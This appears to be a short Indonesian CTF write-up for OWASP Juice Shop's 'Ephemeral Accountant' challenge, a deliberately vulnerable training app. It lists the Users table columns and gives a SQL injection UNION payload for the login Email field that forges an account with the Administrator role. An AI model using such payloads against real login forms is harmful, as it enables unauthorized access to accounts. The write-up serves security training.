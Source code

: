 # Ephemeral Accountant

## Deskripsi

Login ke akun **[acc0unt4nt@juice-sh.op](mailto:acc0unt4nt@juice-sh.op)** tanpa pernah mendaftarkan user tersebut.

## Resource

* [PortSwigger – Examining the database](https://portswigger.net/web-security/sql-injection/examining-the-database)
* [PortSwigger – UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks)

---

## Langkah-langkah

### 1. Identifikasi struktur tabel `Users`

Dari challenge **Database Schema**, diketahui tabel `Users` memiliki 13 kolom:

```
id, username, email, password, role, deluxeToken,
lastLoginIp, profileImage, totpSecret, isActive,
createdAt, updatedAt, deletedAt
```

<img width="1919" height="1140" alt="schema" src="https://github.com/user-attachments/assets/59ac8d25-3050-4922-a6a8-ff5aee2ba325" />

---

### 2. Masuk ke halaman login

<img width="1536" height="895" alt="Screenshot 2025-09-10 at 11 05 23" src="https://github.com/user-attachments/assets/591c84f4-3981-440c-b853-6a155f9b1382" />

---

### 3. Buat payload awal

Payload dimasukkan pada kolom **Email**:

```sql
admin' UNION SELECT * FROM (
  SELECT 67, 'acc0unt4nt@juice-sh.op', 'acc0unt4nt@juice-sh.op',
  'aaaa', 'Administrator', '1234', '127.0.0.1',
  '/assets/public/images/uploads/default.svg',
  '676941', 0, 1, 2, 3
)--
```

<img width="1536" height="895" alt="Screenshot 2025-09-10 at 11 06 08" src="https://github.com/user-attachments/assets/5e4d6b39-2852-4d93-9702-614f31956b09" />
